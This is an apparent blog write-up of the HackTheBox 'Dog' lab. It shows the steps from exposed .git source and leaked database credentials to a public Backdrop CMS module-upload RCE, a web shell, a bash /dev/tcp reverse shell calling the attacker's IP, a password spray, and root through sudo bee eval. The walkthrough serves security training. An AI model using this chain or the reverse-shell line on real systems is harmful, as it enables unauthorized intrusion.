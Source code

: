 ```yaml
---
title: Dog
categories: [HackTheBox]
tags: [cve, codereview]
media_subpath: /images/hackthebox_dog/
image:
  path: 'https://labs.hackthebox.com/storage/avatars/426830ea2ae4f05f7892ad89195f8276.png'
---
```


## Nmap
```bash
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
```

From the `nmap` scan we have an indication that the target is running an Ubuntu server with SSH and HTTP services open.


## 80 - Web Server
### Enumeration

By first accessing the web server, we can see a simple page with a dog image and a link to a login page.

![NON](file-20250711125430776.png)

Looking at the bottom of the page, we can see that the web server is running with the `Backdrop CMS`, which is an open-source content management system (CMS) designed for small to medium-sized websites.

![NON](file-20250711135239693.png)

Since it is an open-source CMS, we can search for the files present in the web server. Looking at the source code of the page, we can see that there is a `robots.txt` file, `LICENSE` and `README.md` files.

![NON](file-20250711125904971.png)

![NON](file-20250711125913714.png)
There was not much information on those files, so I started with the `dirsearch` tool to enumerate the directories and files present in the web server.

```bash
dirsearch -u http://10.10.11.58
```

![NON](file-20250711130003853.png)

There was an exposed `.git` folder, which we can use to reconstruct the source code of the web server, look at previous commits, and find sensitive information.

To dump the contents of the `.git` folder, we can use the `git-dumper` tool.

```bash
git-dumper http://10.10.11.58 src
```

And now we have the source code of the web server in the `src` folder.
![NON](file-20250711130247742.png)

### Finding sensitive information
Looking at the `settings.php` file, we can see that the web server is using a MySQL database alongside with the `root` credentials of the database.

![NON](file-20250711130311632.png)

There was also a folder made of random characters, which would not be caught by the `dirsearch` tool.

![NON](file-20250711130445924.png)

There are 6133 files on that folder, and it is not possible to look at all of them manually. So we can use the `grep` command to search for interesting strings in those files.

#### Finding valid username
We start by searching for references to the `dog` word, which is the name of the target machine, which gave us a possible username.

![NON](file-20250711130618738.png)

Trying to login with that username and the password we found in the `settings.php` file, we can successfully login into the web server.

![NON](file-20250711130953412.png)


Looking at the `status report` page, we found the current version of the `CMS` running at the target, being `1.27.1`

![NON](file-20250711140355258.png)

Looking at public exploites for that specific version, we can find an [authenticated remote command execution vulnerability](https://www.exploit-db.com/exploits/52021), which allows us to execute arbitrary commands on the target machine.

### Exploiting the vulnerability
By running the exploit, it creates a `shell.zip` file, which we can use to install a custom module on the server and from there we can execute arbitrary commands.

![NON](file-20250711131725453.png)

![NON](file-20250711131704830.png)

By sending the `zip` file created by the exploit, we received an error message indicating that `zip` files are not allowed to be uploaded, it only allows `tar, tgz, gz and bz2` files.


```bash
tar -czvf shell.tar.gz shell/*
```


![NON](file-20250711140715542.png)

So instead of using the `zip` file, we created the `tar.gz` file with the same contents, which is the `shell.zip` file.

After that, we try accessing the `shell` module, which is located at `modules/shell/shell.php`, and we have a simple web shell that allows us to execute commands on the target machine.

![NON](file-20250711131847934.png)

## Foothold
We sen our reverse shell payload `bash -c 'bash -i >& /dev/tcp/10.10.14.17/9999 0>&1'`, and got access to the target machine.

![NON](file-20250711131944291.png)

### Lateral Privilege Escalation
Looking at the `/etc/passwd` file, we can see that the following users are present on the target machine:

```bash
cat /etc/passwd | grep "sh$"
```

```bash
root:x:0:0:root:/root:/bin/bash
jobert:x:1000:1000:jobert:/home/jobert:/bin/bash
johncusack:x:1001:1001:,,,:/home/johncusack:/bin/bash
```

Trying a password spray with the password we found in the `settings.php` file, we can successfully login into the `johncusack` user.

![NON](file-20250711133333620.png)

## Privilege Escalation
Looking at the `sudo` permissions of the `johncusack` with `sudo -l`, we can see that the user can run the `bee` binary as root without a password.
![NON](file-20250711133356334.png)

Bee is a command-line tool utility for the Backdrop CMS, we can see its [documentation here](https://github.com/backdrop-contrib/bee).

Looking at the help section of the `Bee` binary, we can see that it can run arbitrary php code, making it possible to escalate privileges to root.

![NON](file-20250711133501856.png)
Trying to execute the command with the `eval` flag, we receive an error message "The required bootstrap level for `eval` is not ready."


![NON](file-20250711133540530.png)

Looking at the help, we see it is trying to use the `--root` flag at our current working directory, which is not a valid Backdrop CMS root directory. So we can use the `--root` flag to specify the root directory of the Backdrop CMS, which is `/var/www/html`, or run the command from that directory, granting us `root` command execution.

![NON](file-20250711141853268.png)

![NON](file-20250711133846290.png)
